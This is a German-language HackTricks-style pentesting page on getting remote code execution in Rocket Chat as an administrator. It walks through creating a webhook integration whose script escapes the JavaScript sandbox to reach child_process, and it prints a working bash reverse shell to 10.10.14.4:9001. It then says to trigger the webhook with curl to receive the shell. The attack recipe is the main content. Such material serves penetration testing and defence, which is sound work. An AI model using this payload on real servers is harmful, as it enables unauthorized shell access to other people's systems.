 # Rocket Chat

{{#include ../../banners/hacktricks-training.md}}

## RCE

Wenn Sie Administrator in Rocket Chat sind, können Sie RCE erhalten.

- Gehen Sie zu **`Integrationen`** und wählen Sie **`Neue Integration`** und wählen Sie eine: **`Eingehender WebHook`** oder **`Ausgehender WebHook`**.
- `/admin/integrations/incoming`

<figure><img src="../../images/image (266).png" alt=""><figcaption></figcaption></figure>

- Laut den [Docs](https://docs.rocket.chat/guides/administration/admin-panel/integrations) verwenden beide ES2015 / ECMAScript 6 ([grundsätzlich JavaScript](https://codeburst.io/javascript-wtf-is-es6-es8-es-2017-ecmascript-dca859e4821c)) zur Verarbeitung der Daten. Lassen Sie uns also eine [Rev Shell für JavaScript](../../generic-hacking/reverse-shells/linux.md#nodejs) wie folgt erhalten:
```javascript
const require = console.log.constructor("return process.mainModule.require")()
const { exec } = require("child_process")
exec("bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1'")
```
- Konfigurieren Sie den WebHook (der Kanal und der Beitrag als Benutzername müssen existieren):

<figure><img src="../../images/image (905).png" alt=""><figcaption></figcaption></figure>

- Konfigurieren Sie das WebHook-Skript:

<figure><img src="../../images/image (572).png" alt=""><figcaption></figcaption></figure>

- Änderungen speichern
- Holen Sie sich die generierte WebHook-URL:

<figure><img src="../../images/image (937).png" alt=""><figcaption></figcaption></figure>

- Rufen Sie es mit curl auf und Sie sollten die rev shell erhalten


{{#include ../../banners/hacktricks-training.md}}
